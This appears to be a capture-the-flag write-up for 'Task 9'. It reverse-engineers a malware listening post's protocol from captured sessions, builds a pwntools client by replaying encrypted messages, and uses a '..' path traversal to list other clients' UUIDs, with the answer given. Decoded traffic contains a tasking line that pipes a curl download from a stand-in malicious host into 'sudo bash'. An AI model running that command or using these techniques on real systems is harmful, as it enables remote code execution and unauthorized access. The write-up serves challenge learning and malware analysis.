


<div align="center">

# Task 9

[](https://shields.io/)
[](https://shields.io/)
[](https://shields.io/)
</div>

> Now that we know how to connect to the listening post, we're ready to interact with it.
> 
> This is serious. We need to be stealthy, so that we don't tip off the actor that we're on to them.
> 
> Click the button below when you're ready to connect. That'll spin up some stuff to let you connect in a stealthy way. The stuff goes away three hours or so, so work quickly. We can always connect again later, but there's a bit of a cooling off period, to avoid suspicion on their end.
> 
> ---
> 
> Now that we're able to register, let's send some commands! Use the knowledge and material from previous tasks to identify other clients that have registered with the LP.
> 
> ---
> 
> Enter the other UUIDs that have registered with the LP, one per line
> ```
> ```

## Files

* [sessions/](sessions/) - PCAP data for other sessions
    - [sayre](sessions/sayre)
    - [root](sessions/root)
    - [chickie](sessions/chickie)
* [parse.py](parse.py) - Session parser
* [client.py](client.py) - Basic client to interact with LP
* [solution.txt](solution.txt) - Solution

## Solution

### Parsing Previous Sessions

Before we start the three hour timer we should write a generic parser that can parse the session data. This should give us some more commands we can use when interacting with the LP. From what we've already reversed, we have a decent idea of how messages are structured:

```
Length Header (4 bytes)
Magic Start (4)
    Parameter Type (2)
    Parameter Length (2)
    Parameter Content (Parameter Length)
    Repeat
Magic End (4)
```

The init message starts with a command parameter:

```
Type:       PARAM_CMD
Length:     2
Content:    COMMAND_INIT
```

And is followed by the UUID parameter:

```
Type:       PARAM_UUID
Length:     16
Content:    uuid
```

We can probably expect all of the sessions to have a similar structure: a command parameter followed by parameters related to the command. Let's start with this assumption and see where it takes us.

First we need the session data from Wireshark. Just like last time, we can use the filter:

```
tcp.port == 6666 && tcp.flags.syn == 1 && tcp.flags.ack == 0
```

This shows us the first packet for each session. Then we can right-click on the sessions we care about and navigate to *Follow > TCP Stream*. Viewing the stream in *Raw* mode allows us to copy and paste the data as hex:

<div align="center">


</div>

I've done this for all three of the DIB sessions and placed them in [sessions/](sessions/).

Now we can decrypt the data and parse it. We'll do lookups for the parameters and commands as we come across them, if we know what the parameters/commands are we can print them out, if not we can try to deduce what's going on based on the parameter data.

To get the parameter and command values, we can go to where the constants are defined in Ghidra:

<div align="center">


</div>

It's okay that some constants are missing, we can put in placeholders for now. The full parser can be found at [parse.py](parse.py).

The parser output from `root` and `chickie` just show us how to make an upload command, something we can already figure out from our malware sample. Fortunately `sayre`'s session has more to offer. 

The first few messages are the same for all messages, just an init message and an ACK from the LP:

```
==== sayre+1.6.7.9+1615897640
Client Public Key: b'\x1b\xf8\xad\xa5\x80?^s'...
Encrypted Fingerprint Message: b'\xfa@\x06Cv\xdf7\x11'...
	==== Message 0
	Length: 34 (b'o\xf2\x90X')
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_CMD (2): COMMAND_INIT
		PARAM_UUID (16): b'\x9f\xb1\x13\xfd\x7f,K\xa0\xb5\x8b\xe4A\xb9-v\x00'
	Magic End?: True (b'\xefZ\x80\xcb')

	==== Message 1
	Length: 16 (b'\xe0g\x1f\xd1')
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_CODE (4): b'\x00\x00\x00\x00'
	Magic End?: True (b'\xefZ\x80\xcb')
```

What follows here is especially interesting to us. `COMMAND_THREE`, a placeholder command that isn't present in our variant, is used to elicit some response from the server with a directory name. The directory name that the LP responds with is `/tmp/endpoints/9fb113fd-7f2c-4ba0-b58b-e441b92d7600/tasking`. Notably the UUID of the client is in the response path. 

```
	==== Message 2
	Length: 34 (b"'g\xd8\xe3")
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_CMD (2): COMMAND_THREE
		PARAM_UUID (16): b'\x9f\xb1\x13\xfd\x7f,K\xa0\xb5\x8b\xe4A\xb9-v\x00'
	Magic End?: True (b'\xefZ\x80\xcb')

	==== Message 3
	Length: 72 (b'\xd2\xed-\x83')
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_DIRNAME (60): b'/tmp/endpoints/9fb113fd-7f2c-4ba0-b58b-e441b92d7600/tasking\x00'
	Magic End?: True (b'\xefZ\x80\xcb')
```

Here we see how `COMMAND_FOUR` is used. The path sent to us as the result of `COMMAND_THREE` is passed back as an argument to this command. The response is our first unknown parameter, 0x1118 with the value `task-NHPIB`, possibly a filename? 

```
	==== Message 4
	Length: 98 (b'\xe9\xc1\x16\xc9')
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_CMD (2): COMMAND_FOUR
		PARAM_UUID (16): b'\x9f\xb1\x13\xfd\x7f,K\xa0\xb5\x8b\xe4A\xb9-v\x00'
		PARAM_DIRNAME (60): b'/tmp/endpoints/9fb113fd-7f2c-4ba0-b58b-e441b92d7600/tasking\x00'
	Magic End?: True (b'\xefZ\x80\xcb')

	==== Message 5
	Length: 23 (b'l^\x93\xe1')
	Magic Start? True (b'\x18\x15\xe9\xd3')
        UNKNOWN (b'\x11\x18') (11): b'task-NHPIB\x00'
	Magic End?: True (b'\xefZ\x80\xcb')
```

In the final two messages we see how `COMMAND_FIVE` is used. Its parameters are a directory and filename. The LP returns with `PARAM_CONTENTS`, probably the contents of the path and filename supplied.  

```
	==== Message 6
	Length: 113 (b'G\x9d\xb8\xfc')
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_CMD (2): COMMAND_FIVE
		PARAM_UUID (16): b'\x9f\xb1\x13\xfd\x7f,K\xa0\xb5\x8b\xe4A\xb9-v\x00'
		PARAM_DIRNAME (60): b'/tmp/endpoints/9fb113fd-7f2c-4ba0-b58b-e441b92d7600/tasking\x00'
		PARAM_FILENAME (11): b'task-NHPIB\x00'
	Magic End?: True (b'\xefZ\x80\xcb')

	==== Message 7
	Length: 65 (b'\x19I\xe7 ')
	Magic Start? True (b'\x18\x15\xe9\xd3')
		PARAM_CONTENTS (53): b'EXEC: curl http://qvpju.mal.invalid/usprn | sudo bash'
	Magic End?: True (b'\xefZ\x80\xcb')
...
```

We have now learned what commands 3, 4, and 5 do. Based on their behavior, we can give them better names:

```
COMMAND_THREE -> COMMAND_PWD
COMMAND_FOUR -> COMMAND_LS
COMMAND_FIVE -> COMMAND_CAT 
```

These names may or may not be accurate, but we can adjust these names as we play with them on the live LP. 

Because the client is able to specify a directory for `COMMAND_LS` and the client UUID is in the path, we might be able to run `COMMAND_LS` with `/tmp/endpoints` or even `..` and be able to see the other registered UUIDs.

### Building a Client

Now we can use what we've learned to interact with the Listening Post! Before we can start testing out the new commands, we need to initialize a session. That involves making a public key, sending a fake fingerprint to the LP, and then sending the init message. We *could* go through all that trouble or we can just copy the encrypted data for a session. Because we know the session key, we'll still be able to encrypt and decrypt future messages. 

[Pwntools](https://github.com/Gallopsled/pwntools) can handle connecting to the LP and sending/receiving messages. A quick template can be generated with:

```bash
$ pwn template --host <LP IP> --port 6666 > client.py
```

I chose to copy the first few encrypted messages from the `root` session. The encrypted client key, fingerprint message, and init message can all be sent as-is without needing any adjustments! 

```python3
def init():
    pubkey_message = bytes.fromhex('20d2a187ac369b6b4392360b97964a8c556830238976b988a8cb35b21d6c7618')
    fingerprint_message = bytes.fromhex('7d6f8318609692052338cca775d1be756f7dea94df002bc438420f915e29a90aa409697a4ea145a269619a5d5d014c844871ebda5d8b80be0f2aca07cdad2dee5caf6c8bc83b50a66364cf29b14e8a219a85975342ef8c463a91f11219ddb0bd0d2004df12234749496cd890a5186d7c699ceadecf019905431fef999c3254a8ab1dd7ed5dd2141878eacf')
    init_message = bytes.fromhex('30ebcf5f20a6d7d06d31c233560d18f13330be17ff8e896c5d61fde2644345cc997c9c627494423b042d545bf6f102a7f10f9b5856c83f49553d1a9cd0661c0d56b435459b046e571f488321f56c')

    io.send(pubkey_message)
    io.send(fingerprint_message)
    io.send(init_message)

    recv_message()
```

At this point it's time to spin up the listening post and connect.

If we do this and then adapt our parser to read the init response, we see the following:

```bash
$ python3 client.py
```
```
[+] Opening connection to 54.85.165.147 on port 6666: Done
==== Message from LP
Length: 56
Magic Start?: True (b'\x18\x15\xe9\xd3')
		PARAM_CODE (4): b'\x00\x00\x00\x00'
Magic End?: True (b'\xefZ\x80\xcb')
```

It works! We can communicate with the LP. Now we need to improve our client so that we can easily test the different commands. 

Wouldn't it be cool if we could type a command like `pwd`, `ls`, or `cat` and have the client send the appropriate messages? I think so. [client.py](client.py) has been written to take in commands with arguments:

```
<=== Message from LP
Length: 56
Magic Start?: True (b'\x18\x15\xe9\xd3')
        PARAM_CODE (4): b'\x00\x00\x00\x00'
Magic End?: True (b'\xefZ\x80\xcb')

> ls
===> Issuing Command LS

<=== Message from LP
Length: 72
Magic Start?: True (b'\x18\x15\xe9\xd3')
        PARAM_DIRLIST (8): b'uploads\x00'
        PARAM_DIRLIST (8): b'tasking\x00'
Magic End?: True (b'\xefZ\x80\xcb')

> pwd
===> Issuing Command PWD

<=== Message from LP
Length: 112
Magic Start?: True (b'\x18\x15\xe9\xd3')
        PARAM_DIRNAME (60): b'/tmp/endpoints/b6c5957f-42ff-473a-85e2-9289477c1209/tasking\x00'
Magic End?: True (b'\xefZ\x80\xcb')

>
``` 

Awesome, it works! Now it's time to see if we can provide alternative paths to `COMMAND_LS`. Our goal in this task is to find UUIDs, so if we go up one more directory we should see a few more:

```
> ls ..
===> Issuing Command LS

<=== Message from LP
Length: 294
Magic Start?: True (b'\x18\x15\xe9\xd3')
        PARAM_DIRLIST (37): b'e49ad3ac-6564-4b4f-b71e-2782b04a9459\x00'
        PARAM_DIRLIST (37): b'b6c5957f-42ff-473a-85e2-9289477c1209\x00'
        PARAM_DIRLIST (37): b'28d77020-b895-42b1-a83d-ce34d0d3c3af\x00'
        PARAM_DIRLIST (37): b'63389ec6-88c7-4c5a-bf29-be567f65cf35\x00'
        PARAM_DIRLIST (37): b'064f25a6-1ba9-499c-a098-4dccce435ef4\x00'
        PARAM_DIRLIST (37): b'f70bcd11-b645-46ac-a636-87639e392c72\x00'
Magic End?: True (b'\xefZ\x80\xcb')
```

That's it! We need to remove the UUID for our client: `b6c5957f-42ff-473a-85e2-9289477c1209` but then we'll have all of the UUIDs needed to complete this task:

```
28d77020-b895-42b1-a83d-ce34d0d3c3af
f70bcd11-b645-46ac-a636-87639e392c72
064f25a6-1ba9-499c-a098-4dccce435ef4
63389ec6-88c7-4c5a-bf29-be567f65cf35
e49ad3ac-6564-4b4f-b71e-2782b04a9459
```

<div align="center">


</div>

## Resources

* [pwntools](https://github.com/Gallopsled/pwntools)
